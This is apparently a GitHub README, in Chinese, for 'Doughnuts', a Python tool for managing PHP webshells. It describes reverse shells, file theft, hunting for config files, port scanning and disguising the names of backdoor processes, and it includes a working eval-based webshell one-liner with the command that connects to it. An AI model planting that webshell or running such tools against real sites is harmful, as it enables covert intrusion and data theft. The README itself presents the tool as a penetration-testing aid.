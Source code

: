 ```yaml
---
description: 一个特化的Webshell管理工具
---
```


# Doughnuts

_基于Python3.6+的PHPwebshell管理器_

 [![YPIoee.png](https://camo.githubusercontent.com/5fee1ac94ee27c8de48598887d64edfd6a30b44f/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496f65652e706e67)](https://camo.githubusercontent.com/5fee1ac94ee27c8de48598887d64edfd6a30b44f/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496f65652e706e67) [![YPIjQf.png](https://camo.githubusercontent.com/e0529a5dd719de0df2906f30943ff4d5108f90c2/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496a51662e706e67)](https://camo.githubusercontent.com/e0529a5dd719de0df2906f30943ff4d5108f90c2/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496a51662e706e67)

## 特征

* 支持连接、记录、管理Webshell，方便下一次连接
* 基于eval的连接，支持GET、POST、COOKIE以及HEADERS四种连接方式
* 支持编码payload\(已内置base64，str\_rot13两种编码,可以通过添加encode目录中的py文件进行扩展\),以实现连接带有解码的Webshell
* 核心功能
  * 获取网站，系统信息
  * 获取一个临时的非完全交互式shell和webshell
  * 以php/python的方式反弹shell\(windows/unix通用\)
  * 读/写/上传/下载/删除网站文件
  * 网站目录打包下载
  * 寻找可写的PHP文件\(以树状结构显示\)
  * 寻找配置文件\(文件名中包含cfg/config/db/database\) 也可以通过修改代码来支持寻找更多的文件\(以树状结构显示\)
  * 输出disbale\_functions
  * 端口扫描
  * 内网代理浏览功能
* 使用可扩展性的模块化编写，易于编写、管理自定义插件

## 依赖

* Python3.6+
* Python-requests
* Python-colorama

## 安装方法

```text
安装PYTHON 3.6+
git clone https://github.com/WAY29/Doughnuts.git
进入Doughnuts目录下
pip install -r requirements.txt 或 pip install requests colorma
python doughnuts.py
enjoy it!
```

## 使用例子

假如要连接以下的webshell:

```text

error_reporting(0);
eval(str_rot13(base64_decode($_REQUEST['2333'])));/
?>
```

那么只需要运行Doughnuts.py,并输入以下命令:

```text
connect http://localhost/test.php GET 2333 rot13 base64
```

即可成功连接至webshell

## 作者

原作者：Longlone

Github 链接：[https://github.com/WAY29/Doughnuts](https://github.com/WAY29/Doughnuts)

## 更新



### V1.8.1

* 增加3种可选模式的内网代理浏览功能，支持GET、POST参数请求，自动跳转以及跳转时COOKIE自动获取传输功能，可在最大程度保留js和css内容前提下将浏览得到的内容存入本地.html文件中

### V1.8

* 优化连接时发送的请求,从发送三次变成发送2次
* 修改pdf命令的逻辑,在连接时获取
* 优化reshell命令,命令格式为reshell {lhost} {port} {type=\[python\|script\|upload\]{1\|2\|3},default = 0 \(Python:1 Not Python:3\)} {\(Only for Mode 2\) fakename=/usr/lib/systemd} 三种模式分别为:1-&gt;使用python pty模块升级, 2-&gt;使用linux自带的script命令升级, 3-&gt;上传一个反弹pty的二进制文件并运行\(可以伪造进程名,若无法反弹请进入libs目录拿取源码,使用目标相同发行版进行编译后覆盖原reverse\_server\_light文件\)

### V1.7

* 修改reshell命令,修复bug,优化体验,可以随意伪装进程名
* 在libs目录下放置reverse\_server\_light的源码,方便编译与修改\(origin:[https://github.com/QAX-A-Team/ptyshell](https://github.com/QAX-A-Team/ptyshell)\)
* 重写portscan,支持三种扫描方式

### V1.6

* 修复了若干bug
* 添加了reshell命令,监听本地端口,并让目标反弹一个完整交互式的shell\(仅限双方系统都是linux且可能存在一定的问题\)

### V1.5

* modify指令现在会调用notepad/vim进行编辑
* write指令现在会调用notepad/vim进行编辑
* dump命令现在使用原始php代码进行压缩,可以压缩子目录
* 优化了发送payload的间隔符

### V1.4

* 添加指令:修改文件
* 关闭debug模式
* 修复了某些情况下fwpf,fc指令无法使用的情况,现在发送数据时会关闭错误提示

## 免责声明

本项目仅供网站管理人员与渗透测试人员学习与交流,任何使用本项目进行的一切未授权攻击行为与本人无关.


